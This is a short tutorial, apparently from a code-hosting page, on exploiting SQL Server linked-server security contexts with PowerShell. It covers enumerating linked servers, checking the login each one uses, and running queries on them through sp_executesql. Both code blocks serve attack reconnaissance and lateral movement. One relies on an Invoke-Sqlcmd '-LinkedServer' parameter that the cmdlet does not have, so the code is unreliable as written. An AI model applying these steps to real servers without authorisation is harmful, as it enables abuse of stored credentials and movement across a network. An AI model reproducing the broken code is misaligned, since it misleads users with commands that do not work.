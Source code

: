 ### **Understanding Linked Security Contexts**

When you set up a linked server in SQL Server, you can configure the security context for how authentication is handled when accessing the remote server. The security context could be:

1. **Self-mapping (Current security context)**: The current SQL login context is used to connect to the linked server.
2. **Specific User Mapping**: A specific SQL Server login or Windows user account is used to connect to the linked server.
3. **Anonymous Mapping**: Connection is made with an anonymous user or without any user credentials.
4. **Impersonation**: The connection is made using a different user context, usually specified in the linked server's security settings.

### **Exploiting Linked Security Context Using PowerShell**

#### 1. **Enumerate Linked Servers and Test Connectivity**

First, you can enumerate linked servers and test the connectivity.

```powershell
$serverInstance = "your_sql_server_instance"
$linkedServers = Invoke-Sqlcmd -ServerInstance $serverInstance -Query "EXEC sp_linkedservers;"

foreach ($linkedServer in $linkedServers) {
    Write-Host "Testing Linked Server: $($linkedServer.SRV_NAME)"
    try {
        $query = "SELECT SYSTEM_USER AS CurrentUser, SESSION_USER AS SessionUser;"
        $result = Invoke-Sqlcmd -ServerInstance $serverInstance -Query $query -Database "master" -LinkedServer $linkedServer.SRV_NAME
        Write-Host "Connected as: $($result.CurrentUser) / $($result.SessionUser)"
    } catch {
        Write-Host "Failed to connect to $($linkedServer.SRV_NAME)"
    }
}
```

This script lists linked servers and attempts to connect to each one, printing the user context in which the connection is made.

#### 2. **Execute Commands on the Linked Server**

If the linked server allows, you can execute commands under the security context of the linked server's login.

```powershell
$serverInstance = "your_sql_server_instance"
$linkedServer = "LinkedServerName"
$command = "SELECT SYSTEM_USER AS CurrentUser, SESSION_USER AS SessionUser;"

$query = "EXEC [$linkedServer].master.dbo.sp_executesql N'$command';"
Invoke-Sqlcmd -ServerInstance $serverInstance -Query $query
```

This command executes a query on the linked server and prints the current and session users.
